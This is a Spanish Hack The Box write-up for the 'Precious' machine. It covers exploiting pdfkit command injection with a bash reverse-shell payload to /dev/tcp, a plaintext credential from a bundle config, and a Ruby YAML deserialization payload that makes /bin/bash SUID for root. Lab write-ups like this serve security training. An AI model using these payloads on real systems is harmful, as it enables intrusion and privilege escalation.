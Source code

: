 ```yaml
---
layout: post
title: Precious
date: 2022-12-28
categories: ["HTB", "PDF", "File Edit"]
thumbnail: "assets/images/Precious.png"
---
```


# Precious [ Hack The Box ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.11.189 -oG allPorts`
- `nmap -sCV -p22,80 10.10.11.189 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Cuando entramos a la página vemos una caja que nos pide una `URL` para convertirla a `PDF`. Con `Python` me monté un servidor:

- `python3 -m http.server 80`

Para ver si recibimos alguna conexión probé a poner mi servidor `HTTP` y darle al `enter`. Como nos esperábamos, hay conectividad y además se nos descarga el `PDF`.

Con `exiftool` miraremos las propiedades del `PDF` para ver qué podemos encontrar:

- `exiftool archivo.pdf`

```
ExifTool Version Number         : 12.16
File Name                       : archivo.pdf
Directory                       : .
File Size                       : 17 KiB
File Modification Date/Time     : 2022:12:02 21:07:38-06:00
File Access Date/Time           : 2022:12:02 21:07:38-06:00
File Inode Change Date/Time     : 2022:12:02 21:07:53-06:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

En la última fila vemos que ha sido generado por `PDFKit` versión `0.8.6`. Si buscamos información nos encontraremos con que es vulnerable a `Command Injection` ([`Snyk`](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)).

Para ganar una Reverse Shell primero nos pondremos en escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Perfecto, el siguiente paso será irnos a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y copiarnos una Reverse Shell en `Bash`.

Una vez tengamos todo hecho volveremos a la página y de vuelta pondremos nuestro servidor `HTTP` pero con una pequeña modificación:

- `http://10.10.11.89/?name=#{'%20`bash -i >& /dev/tcp/10.10.11.89/4444 0>&1`'}`

Bien! Ya estamos en la máquina como `Ruby`!

### Subida de privilegios #1
Una vez estemos dentro de la máquina nuestro objetivo es ser `root`, aunque debemos pasar por otro usuario antes (`Henry`).

Para ello me fui al directorio personal de `Ruby` e hice `ls -la`:

```
drwxr-xr-x 4 ruby ruby 4096 Dec  2 22:03 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Dec  2 22:03 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Vemos una carpeta llamada `.bundle`, si entramos nos encontraremos con un fichero con el nombre de `config`, vamos a leer lo que pone:

```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Wow! Podemos ver en texto claro las credenciales de `Henry`!

### Subida de privilegios #2
Ahora sí podemos seguir con nuestro objetivo principal: conseguir ser `root`. Para ello lo 
primero que hice fue hacer `sudo -l` para mirar los permisos de `sudoers`:

```
Matching Defaults entries for henry on precious:
    secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Vemos que podemos ejecutar como `root` y sin contraseña el binario de `Ruby`. Por desgracia sólo podemos usarlo para un archivo en específico.

Si miramos el código veremos que necesitaremos un archivo llamado `dependencies.yml`. Para crear el nuestro podemos utilizar el siguiente [`payload`](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml). Lo editaremos a nuestro gusto:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Vemos que en el apartado `git_set` hemos hecho que la `Bash` sea `SUID`, vamos a ejecutarlo:

- `sudo /usr/bin/ruby /opt/update_dependencies.rb`

Bien! Si ahora hacemos `ls -l /bin/bash` veremos que los permisos han cambiado y con `bash -p` nos convertimos en `root`.

Enhorabuena! Ya estamos como `root` en la máquina víctima! Qué fácil!